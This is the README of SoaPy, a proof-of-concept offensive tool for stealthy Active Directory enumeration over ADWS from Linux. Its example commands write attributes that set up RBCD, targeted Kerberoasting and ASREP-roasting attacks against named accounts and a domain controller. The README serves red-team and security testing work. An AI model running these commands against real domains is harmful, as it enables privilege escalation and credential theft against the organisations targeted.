 # Description
SoaPy is a Proof of Concept (PoC) tool for conducting offensive  interaction with Active Directory Web Services (ADWS) from Linux hosts. SoaPy includes previously undeveloped custom python implementations of a collection of Microsoft protocols required for interaction with the ADWS service. This includes but is not limited to: NNS (.NET NegotiateStream Protocol), NMF (.NET Message Framing Protocol), and NBFSE (.NET Binary Format: SOAP Extension).


SoaPy can be primarily utilized to interact with ADWS for stealthy enumeration over a proxy into an internal Active Directory environment. Additionally SoaPy can perform targeted exploitation over ADWS, including `servicePrincipalName` writing for targeted Kerberoasting, `DON’T_REQ_PREAUTH` writing for targeted ASREP-Roasting, and the ability to write to `msDs-AllowedToActOnBehalfOfOtherIdentity` for Resource-Based Constrained Delegation attacks.



# Usage

```

███████╗ ██████╗  █████╗ ██████╗ ██╗   ██╗
██╔════╝██╔═══██╗██╔══██╗██╔══██╗╚██╗ ██╔╝
███████╗██║   ██║███████║██████╔╝ ╚████╔╝
╚════██║██║   ██║██╔══██║██╔═══╝   ╚██╔╝
███████║╚██████╔╝██║  ██║██║        ██║
╚══════╝ ╚═════╝ ╚═╝  ╚═╝╚═╝        ╚═╝

usage: soapy [-h] [--debug] [--ts] [--hash nthash] [--users] [--computers] [--groups] [--constrained] [--unconstrained] [--spns] [--asreproastable] [--admins] [--rbcds]
             [-q query] [--filter attr,attr,...] [--rbcd source] [--spn value] [--asrep] [--account account] [--remove]
             connection

Enumerate and write LDAP objects over ADWS using the SOAP protocol

positional arguments:
  connection            domain/username[:password]@<targetName or address>

options:
  -h, --help            show this help message and exit
  --debug               Turn DEBUG output ON
  --ts                  Adds timestamp to every logging output.
  --hash nthash         Use an NT hash for authentication

Enumeration:
  --users               Enumerate user objects
  --computers           Enumerate computer objects
  --groups              Enumerate group objects
  --constrained         Enumerate objects with the msDS-AllowedToDelegateTo attribute set
  --unconstrained       Enumerate objects with the TRUSTED_FOR_DELEGATION flag set
  --spns                Enumerate accounts with the servicePrincipalName attribute set
  --asreproastable      Enumerate accounts with the DONT_REQ_PREAUTH flag set
  --admins              Enumerate high privilege accounts
  --rbcds               Enumerate accounts with msDs-AllowedToActOnBehalfOfOtherIdentity set
  -q query, --query query
                        Raw query to execute on the target
  --filter attr,attr,...
                        Attributes to select from the objects returned, in a comma seperated list

Writing:
  --rbcd source         Operation to write or remove RBCD. Also used to pass in the source computer account used for the attack.
  --spn value           Operation to write the servicePrincipalName attribute value, writes by default unless "--remove" is specified
  --asrep               Operation to write the DONT_REQ_PREAUTH (0x400000) userAccountControl flag on a target object
  --account account     Account to preform an operation on
  --remove              Operarion to remove an attribute value based off an operation

```
# Installation
With `pipx`:
```
pipx install .
```


With `poetry`:
```
poetry install
```

# Example Usage

Enumerate users using preset enumeration flags:
```
soapy <domain>/<user>:'<password>'@<ip> --users
```

Enumerate computers `samAccountName` and `objectSid` using a custom query/attribute filtering:
```
soapy <domain>/<user>:'<password>'@<ip> --query '(objectClass=computer)' --filter "samaccountname,objectsid"
```

Write `msDs-AllowedToActOnBehalfOfOtherIdentity` on DC01, enabling delegation from MS01 for an RBCD attack:
```
soapy <domain>/<user>:'<password>'@<ip> --rbcd 'MS01$' --account 'DC01$'
```

Write the `servicePrincipalName` attribute on jdoe as part of a targeted Kerberoasting attack:
```
soapy <domain>/<user>:'<password>'@<ip> --spn test/spn --account jdoe
```

Write `DONT_REQ_PREAUTH` (0x400000) on jdoe's `userAccountControl` attribute, making the account ASREP-Roastable:
```
soapy <domain>/<user>:'<password>'@<ip> --asrep --account jdoe
```
